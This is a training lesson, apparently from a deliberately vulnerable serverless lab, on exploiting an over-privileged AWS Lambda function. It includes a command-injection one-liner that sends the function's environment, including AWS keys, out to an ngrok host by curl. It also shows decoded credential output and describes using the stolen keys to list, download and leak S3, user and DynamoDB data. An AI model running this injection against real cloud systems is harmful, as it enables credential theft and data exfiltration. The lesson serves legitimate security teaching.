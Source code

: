 # LESSON #7: Over-Privileged Function

Maybe one of the most fundamental security vulnerabilities in serverless applicaiton are over-privileged functions. [Previous research](https://www.protego.io/protego-labs-finds-nearly-all-serverless-application-functions-at-risk/) has found that almost all functions are configured with more permissions than what they actually need.

Let's see what we can do with that:

We already saw that one of the functions is vulnerable to command injection through an [insecure s3 configuration](../LESSONS/LESSON_04.md), so we can leverage that and steal the function's keys. By stealing the keys (AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY and AWS_ACCESS_KEY_ID), we will be able to assume the function's temporary execution role.

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;b=`env|base64 --wrap=0`;curl 0c971764.ngrok.io?data=$b;echo x.raw' --profile hacker
```

It's not hard to find the relevant keys in the base64 string that we got:

![alt base64-keys](https://i.imgur.com/ig8iV2J.png)

Decoding them (```echo <BASE64> | base64 --decode```) will reveal (partial info):
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQXXXXXXXXXXXXXXXPJnxYa8D85UCLwAXXXXXXXXXXXXXXXRUkQWDwu4NMqrE+dcRXXXXXXXXXXXXXXXrTB6PxZzyfw0pDFUJHXXXXXXXXXXXXXXXAFfF6kR5AjFSQd/SkjymXXXXXXXXXXXXXXXO+1JfHtJBFqwI7VnaHMcCoDp4O/WcXXXXXXXXXXXXXXXCNW886DrHxciDCXXXXXXXXXXXXXXXZt3k9f3WuwI/FfXXXXXXXXXXXXXXXp43gtQYe3IV1sCpPs/kUneXXXXXXXXXXXXXXXiZGU63V79bpu/Dt3fzO0eSHAO6ii4t9/gBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/DVSA-SEND-RECEIPT-EMAIL
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/12/23/[$LATEST]ce7961b403ba4b47806460db4bc62944
AWS_EXECUTION_ENV=AWS_Lambda_python2.7
AWS_LAMBDA_FUNCTION_NAME=DVSA-SEND-RECEIPT-EMAIL
PATH=/usr/local/bin:/usr/bin/:/bin:/opt/bin
SOURCE_EMAIL=tal+dvsa+noreply@protego.io
AWS_DEFAULT_REGION=us-east-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxxI8g7+XkMv/6tuC7xxxxxxxxxx
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=us-east-1
ORDERS_TABLE=DVSA-ORDERS-DB
AWS_ACCESS_KEY_ID=ASIAYXXXXXXXXXXXXXXX
PYTHONPATH=/var/runtime
_HANDLER=lambda_function.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=256
```
Let's copy the relevant data into environment variables:
```
export AWS_SECRET_ACCESS_KEY = "..."
export AWS_ACCESS_KEY_ID = "..."
export AWS_SESSION_TOKEN = "..."
```

Or, into our AWS credentials - ~/.aws/credentials (which is my preferit):
![alt stolen-keys](https://i.imgur.com/tFXFZEj.png)

By default, temporary security credentials for an IAM user are valid for a maximum of 12 hours (and therefore, long gone in the screenshot). In this time frame, we can use these keys to run any AWS command that is aligned with the functions permissions. Since the function is (way) over-privileged, we can start stealing sensitive data and performing actions on the account.

For example:

(1) lisitng all files on s3:
![alt ls-bucket](https://i.imgur.com/Cg8cBYs.png)

(2) downloading a file from the bucket:
![alt download-receipt](https://i.imgur.com/3hMxfZP.png)

We can of course, also delete files. But, we are not limited to the S3! Let's explore further:

(3) leaking all users:
![alt leak-users](https://i.imgur.com/JVkreVB.png)

(4) orders from dynamodb:
![alt leak-orders](https://i.imgur.com/WdBSzVG.png)

And many more. I'll leave that to you to explore.



- - - 
[<- Lesson #6](../LESSONS/LESSON_06.md)

[Lesson #8 ->](../LESSONS/LESSON_08.md)


